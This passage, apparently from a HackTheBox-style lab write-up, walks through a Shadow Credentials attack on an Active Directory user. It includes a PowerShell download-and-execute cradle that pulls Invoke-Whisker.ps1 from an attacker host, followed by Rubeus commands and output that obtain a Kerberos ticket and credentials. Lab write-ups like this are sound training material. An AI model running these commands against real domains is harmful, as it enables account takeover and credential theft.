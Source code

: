 We can download its counterpart on .ps1, in this case we can download the [Invoke-Whiskers.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Whisker.ps1) and upload it to the machine: ^f177f9
```bash
PS C:\Windows\Temp\Recon> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/Invoke-Whisker.ps1')
```
After upload it we then can execute the command as follows:
```bash
Invoke-Whisker -Command "add /target:sflowers"
```
This will retrieve a huge command that can be used with [Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries):
```bash
PS C:\Windows\Temp\Recon> Invoke-Whisker -Command "add /target:sflowers"
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password lAfNxND7rgF9A5mJ
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 86d8f569-2258-4ab5-8ce1-0c8befa21b55
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:
Rubeus.exe asktgt /user:sflowers 
/certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCWUEgglhMIIJXTCCBhY...
vXgICB9A= /password:"lAfNxND7rgF9A5mJ" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
```
But first we need to delete the carrier return and line jump of every line on it, so we can use "tr" and "sponge" commands after saving the output on a file called data:
```bash
cat data | tr -d '\n' | sponge data
```
Finally we need to upload the Rubeus.exe with curl and execute it as indicated by Invoke-Whisker:
```bash

 ______        _
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 172.16.20.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
...
  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  1/25/2023 7:28:01 AM
  EndTime                  :  1/25/2023 5:28:01 PM
  RenewTill                :  2/1/2023 7:28:01 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
```

[^dotnet-compilation]: dotNET Project Compilation with Visual Studio